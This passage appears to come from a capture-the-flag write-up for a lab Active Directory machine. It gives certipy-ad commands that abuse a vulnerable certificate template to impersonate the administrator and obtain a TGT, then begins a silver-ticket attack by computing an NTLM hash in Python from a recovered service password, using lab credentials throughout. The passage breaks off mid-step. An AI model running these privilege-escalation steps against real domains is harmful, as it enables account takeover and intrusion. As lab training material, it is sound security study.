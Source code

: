 ![](attachment/d47f7b854641fe28782813650b1f1041.png)
# Alternative way
`certipy-ad find -u ryan.cooper@sequel.htb -p NuclearMosquito3 -text -stdout -vulnerable`
Then
`certipy-ad req  -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication`
Now we get the certificate
![](attachment/df0bfcfc05d23b7294889a59a6aa56eb.png)
Now to get TGT:
`certipy-ad auth -pfx administrator.pfx`

# Silver Ticket
To get a silver ticket we need the NTLM hash of the sql_svc account but we already have the password so to generate NTLM hash:
In Python3;
```
import hashlib
hashlib.new('md4','REGGIE1234ronnie'.encode('utf-16le')).digest().hex()
```
Then we get the NTLM hash:
`1443ec19da4dac4ffc953bca1b57b4cf`
To get SID do `get-addomain` in evil-winrm powershell: